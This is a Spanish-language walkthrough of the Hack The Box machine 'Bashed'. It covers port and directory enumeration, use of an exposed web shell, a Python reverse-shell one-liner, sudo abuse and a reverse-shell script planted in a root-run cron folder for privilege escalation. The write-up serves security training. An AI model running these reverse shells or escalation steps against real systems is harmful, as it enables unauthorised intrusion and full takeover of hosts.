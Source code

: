 ```yaml
---
title: "Bashed - WriteUp"
date: Fri Aug 23 2024 10:13:12 GMT+0200 (Central European Summer Time)
categories: [WriteUps, HTB, Linux]
tags: [fuzzing, gobuster, pspy]
image: /assets/img/cabeceras/2024-08-23-bashed---writeup.png
---
```


## Enumeración

NMAP

```bash
# Nmap 7.94SVN scan initiated Sat Jan 27 20:55:30 2024 as: nmap -sCV -p 80 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xs
l -oN targeted -oX targetedXML 10.129.79.90
Nmap scan report for 10.129.79.90
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 27 20:55:38 2024 -- 1 IP address (1 host up) scanned in 8.04 seconds
```

NMAP HTTP-ENUM

```bash
nmap -sCV -p80 --script http-enum 10.129.79.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 20:57 CET
Nmap scan report for 10.129.79.90
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.96 seconds
```

HTTP

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127205956.png)

Vamos a realizar fuzzing de directorios y ficheros.

```bash
$ gobuster dir -u http://10.129.79.90 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --follow-redirect --add-slash
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons/               (Status: 403) [Size: 293]
/uploads/             (Status: 200) [Size: 14]
/php/                 (Status: 200) [Size: 940]
/css/                 (Status: 200) [Size: 1759]
/images/              (Status: 200) [Size: 1565]
/dev/                 (Status: 200) [Size: 1149]
/js/                  (Status: 200) [Size: 3166]
/fonts/               (Status: 200) [Size: 2096]
/server-status/       (Status: 403) [Size: 301]
```

Dentro de /dev encontramos lo siguiente:

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211027.png)

Si pulsamos en cualquiera de los dos abriremos una consola de ejecución local de comandos.

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211226.png)


## Explotación

Vamos a intentar mandarnos una reverse shell.

Nos ponemos a la escucha por el puerto 4444 con _NetCat_

```bash
$ nc -nlvp 4444
```

Ejecutamos lo siguiente:

```bash
www-data@bashed:/var/www/html/dev# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127212741.png)

Hacemos un _sudo -l_ y vemos algo interesante...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220412.png)

Podemos ejecutar comandos como el usuario _scriptmanager_ sin proporcionar contraseña.

## Escalada

Nos subimos _linpeas_ y _pspy_ y seguimos enumerando...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220643.png)

Con _pspy_ descubrimos que root ejecuta un script en python que ejecuta todos los scripts con extensión .py dentro de la carpeta /scripts. Pero no podemos ver ni entrar en esa carpeta, vamos a ver a quién pertenece...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220925.png)

Sospechosamente pertenece al usuario _scriptmanager_...

Pero recordamos que tenemos el permiso de ejecutar tareas como ese usuario así que vamos a intentar enviarnos una shell...

```bash
$ sudo -u scriptmanager bash -i
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221109.png)

Y funciona! somo el usuario _scriptmanager_!

Ahora podemos modificar y entrar en la carpeta /script. Como existe una tarea que ejecuta scripts cada dos minutos como usuario _root_, lo que tendremos que hacer es crear un archivo Python que nos mande una shell ...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221415.png)

Creo que bastará con modificar el archivo .py existente.

Lo abrimos y lo dejamos así:

```python
import socket,subprocess,os 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.93",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Grabamos y nos ponemos en escucha por el puerto que hayamos indicado:

```bash
$ mc -nlvp 8888
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127222242.png)

Reto conseguido!

